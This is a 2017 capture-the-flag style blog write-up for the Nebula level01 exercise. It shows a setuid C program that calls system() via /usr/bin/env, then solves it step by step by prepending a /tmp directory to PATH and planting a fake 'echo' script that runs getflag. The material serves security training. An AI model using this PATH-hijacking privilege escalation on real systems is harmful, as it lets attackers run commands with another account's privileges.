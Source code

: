 ```yaml
---
layout:     post
title:      "Nebula 01"
subtitle:   "Exploit Exercises Write-Up"
date:       2017-06-07 0:00:00
author:     "W3ndige"
header-img: "img/nebula-header.jpg"
permalink: /:title/
category: "Exploit Exercises"
---
```


<h1>Introduction</h1>

<p>Let's start another challenge from Nebula machine and see what's our target this time. </p>

<h1>Challenge</h1>

<p><b>About</b></p>

<pre>
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.
</pre>

<p><b>Code</b></p>

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endhighlight %}

<p><b>Solution</b></p>

<p>Firstly, from the code, we know that <b>/usr/bin/env</b> will execute a program with the current enviroment. It includes a <b>$PATH</b> variable, which stores information where programs can be found. That way we can change the $PATH to some other folder, containing <b>echo</b> script. Then it will run the getflag program, just like in the previous level. </p>

{% highlight bash %}
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls -l
total 8
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
{% endhighlight %}

<p>In addition, setuid bit is set, so it will run as the owner <b>flag01</b>. Let's start from creating a tmp directory, which will be our fake one. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ mkdir /tmp/level01
{% endhighlight %}

<p>Now we are able to create fake PATH using export command, and then create the fake echo program. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ export PATH="/tmp/level01:$PATH"
level01@nebula:/home/flag01$ echo "getflag" > /tmp/level01/echo
{% endhighlight %}

<p>Don't forget about the execute permissions. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ chmod +x /tmp/level01/echo
{% endhighlight %}

<p>And we're ready to go, and run this vulnerable program. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ ./flag01
You have successfully executed getflag on a target account
{% endhighlight %}

<p>Another challenge completed! </p>

<p>~ Stay safe! </p>
